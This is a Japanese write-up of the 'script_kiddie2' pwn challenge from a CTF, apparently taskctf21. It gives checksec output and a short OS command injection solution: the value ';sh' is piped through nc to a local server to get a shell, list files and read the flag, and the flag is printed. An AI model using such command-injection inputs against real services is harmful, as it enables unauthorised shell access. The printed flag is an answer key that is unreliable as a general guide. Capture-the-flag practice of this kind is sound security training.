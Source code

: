 ## 事前知識
script_kiddieのwriteupを参照してください。

### checksec

```bash
$ checksec script_kiddie2
[*] '/home/user/work/taskctf21-public/pwn/script_kiddie/dist/script_kiddie2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 方針
- OSコマンドインジェクションをやる
- 短くできる方法を考える

## 解法
サーバの起動

```bash
docker-compose up -d
```

```bash
(echo ";sh"; cat) | nc 127.0.0.1 30007
Which flag do you want?
ls
flag
script_kiddie2
start.sh
cat flag
taskctf{sh_1s_als0_0k}^C
```

## コメント
script_kiddieのレビューをしていた時にうまれた問題です。想定解は「;sh」です。
